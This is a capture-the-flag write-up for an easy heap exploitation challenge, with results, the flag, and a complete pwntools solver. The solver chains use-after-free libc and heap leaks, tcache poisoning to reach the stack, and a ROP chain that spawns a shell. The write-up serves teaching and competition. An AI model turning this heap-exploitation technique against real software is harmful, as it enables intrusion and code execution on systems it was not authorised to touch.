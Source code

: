 # Guide to heap : pwn

This problem was generated using ChatGPT. No modifications have been made to the original source code.  
Originally, as the title suggests, I intended this to be a beginner-friendly heap problem where simply following the instructions would allow you to obtain the flag.  
I apologise for the misleading title.  
However, as it is a template problem, I believe it remains within the scope of beginner-friendly content.

## Result
Solved: 28  
Points: 383

1st: syn9(sknb)  
2nd: 0xM4hm0ud(The Trio)  
3rd: 5unsetpowerln(TPC)

## Challenge
We will guide you to the door of the heap world!  
`nc chal1.fwectf.com 8010`

Difficulty: easy
Attachment: [guide_to_heap.zip](guide_to_heap.zip)

## writeup

Knowing the following will enable you to solve it:
* tcache, unsortedbin, etc.
* double free, UAF
* tcache poisoning
* libc leak
* ROP

Below is the executable code:
```python solver.py
from pwn import *

elf = context.binary = ELF('./chall')
libc = ELF('./libc.so.6')

def allocate_(index, size, data=None, zero=False):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b': ', str(index).encode())
    p.sendlineafter(b': ', str(size).encode())
    if not zero:
        p.sendafter(b': ', data)
def delete_(index):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b': ', str(index).encode())
def edit_(index, data):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b': ', str(index).encode())
    p.sendafter(b': ', data)
def show_(index):
    p.sendlineafter(b'> ', b'4')
    p.sendlineafter(b': ', str(index).encode())
def exit_():
    p.sendlineafter(b'> ', b'5')

p = process('./chall')

allocate_(0, 0x418, b'A'*0x418)
allocate_(1, 0x18, b'B'*0x18)
delete_(0)
delete_(1)

show_(0)
libc.address = u64(p.recvn(6).ljust(8, b'\0')) - 0x203b20
print('libc', hex(libc.address))

libc_argv = libc.address + 0x2046e0

show_(1)
heap = u64(p.recvn(3).ljust(8, b'\0')) << 12
print('heap', hex(heap))

allocate_(2, 0x18, b'A'*0x18)
allocate_(3, 0x18, b'B'*0x18)
delete_(2)
delete_(3)
edit_(3, p64((heap>>12)^libc_argv))
allocate_(4, 0x18, b'C'*0x18)
allocate_(5, 0x0, zero=True)
show_(5)
stack = u64(p.recvn(6).ljust(8, b'\0'))
print('stack', hex(stack))

target_stack = stack - 0x148

allocate_(6, 0x108, b'X'*0x108)
allocate_(7, 0x108, b'Y'*0x108)
delete_(6)
delete_(7)
edit_(7, p64(target_stack^(heap>>12)))
allocate_(0, 0x108, b'Z'*0x100)

system = libc.sym['system']
binsh  = next(libc.search(b'/bin/sh\0'))
pop_rdi = libc.address + 0x001ae710
ret = pop_rdi + 1

rop = flat(
    ret,
    pop_rdi,
    binsh,
    system,
)
payload  = p64(0xdeadbeef)
payload += rop
allocate_(1, 0x108, payload)

p.interactive()
```

## flag

`fwectf{kn0w1ng_7c4ch3}`

